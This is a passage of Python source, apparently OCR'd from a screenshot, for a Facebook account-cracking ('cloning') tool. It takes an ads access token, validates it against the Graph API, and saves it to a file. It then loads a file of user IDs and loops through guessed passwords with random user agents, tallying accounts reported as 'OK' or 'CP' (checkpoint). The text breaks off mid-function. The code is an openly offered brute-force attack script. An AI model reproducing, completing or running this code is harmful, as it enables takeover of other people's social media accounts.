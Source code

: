 def login():
    os.system('clear');print(banner)
    tok = input('\033[1;37m[+]  \033[1;36mPUTT ACCESS TOKEN\033[1;31m : \033[1;32m')
    if 'EAAB' in tok:
        pass
    else:
        print('  \033[1;37mOnly fb ads access token can be used for scraping data')
        print('  \033[1;37mCheck main menu for creating fb ads access token....o')
        os.sys.exit()
    try:
        u = requests.get('https://graph.facebook.com/me?access_token='+tok).text
        u1 = json.loads(u)
        name = u1['name']
        ts = open('access_token.txt', 'w')
        ts.write(tok)
        ts.close()
        print('\033[1;92m\t Logged in successfully')
        time.sleep(1)
        version()
    except KeyError:
        print('\n\033[1;91m  Invalid token provided, try again  ')
        time.sleep(1)
        login()      
def banner():
	print(banner)
def hasil(ok,cp):
	if len(ok) != 0 or len(cp) != 0:
		print('\033[1;96m The Prosess Done Is Completed')
		print('\n\033[1;92mTotal OK : %s \n \033[1;95m Total CP : %s'%(str(len(ok)),str(len(cp))));input(' Press Enter To Go Back ');version()
		#print('\033[1;91mCHECK > %s'%(str(len(cp))));exit()
	else:
		print('\n\033[0mYour Ip Is Blocked Or Blacklist Restart Your Mobile ')
		exit()
		
class __crack__:
	def __init__(self):
		self.id = []
	def plerr(self):
		os.system("clear");print(banner)
		print('          \033[1;32m[ File CLONING CP/OK IDS MIX ] ')
		print(50*"\033[1;97m_")
		try:
			self.apk = input("\033[1;37m[+] \033[1;36mFILE PATH\033[1;31m : \033[1;32m ")
			print ('')
			self.id = open(self.apk).read().splitlines()
		except:
			print('\n \033[1;37m[!] \033[1;31mFile Not Found In Storage')
			input('\n\033[1;37m[*] \033[1;36mPress Enter To Back');version()
		self.__pler__()
	def __mbasic__(self, user, _sempak_):
		global ok,cp,loop
		sys.stdout.write(f"\r \x1b[1;97m[\033[1;36mPicchi\033[1;37m] {loop}/{len(self.id)} \033[1;37m[\033[1;36mTOTAL-Id\033[1;37m] \033[1;37m[\033[1;36m{len(ok)}\033[1;37m]")
		sys.stdout.flush()
		for pw in _sempak_:
			pw = pw.lower()
			try: os.mkdir('')
			except: pass
			try:
				psyagents = random.choice(liners)
			except (KeyError, IOError):